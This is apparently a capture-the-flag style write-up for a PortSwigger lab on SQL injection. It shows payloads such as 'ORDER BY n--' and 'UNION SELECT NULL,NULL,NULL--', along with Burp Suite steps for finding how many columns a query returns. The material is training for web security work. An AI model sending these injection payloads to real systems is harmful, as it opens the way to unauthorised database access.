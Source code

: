 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

![lab-sql-determining-number-of-columns.png](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/lab-sql-determining-number-of-columns.png)

# Common SQLi Attack

## Adding a single quote `'`.

![screenshot00](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot00.png)

![screenshot01](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot01.png)

# Identify Column Count Attack

`UNION SELECT NULL—-`

![screenshot02](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot02.png)

![screenshot03](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot03.png)

`'ORDER BY 1--`

![screenshot04](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot04.png)

![screenshot05](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot05.png)

`'ORDER BY 2--`

![screenshot06](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot06.png)

`'ORDER BY 3--`

![screenshot07](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot07.png)

`'ORDER BY 4--`

![screenshot08](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot08.png)

There are 3 columns for the request.

# Performing the Attack

![screenshot09](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot09.png)

```sql
'UNION SELECT NULL,NULL,NULL--
```

![screenshot10](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query/screenshot10.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+UNION+SELECT+NULL--`. Observe that an error occurs.
3. Modify the `category` parameter to add an additional column containing a null value: `'+UNION+SELECT+NULL,NULL--`
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query](https://youtu.be/umXGHbEyW5I)

Michael Sommer

[SQL injection UNION attack, determining the number of ... (Video solution, Audio)](https://youtu.be/P7ARzl7OKzk)

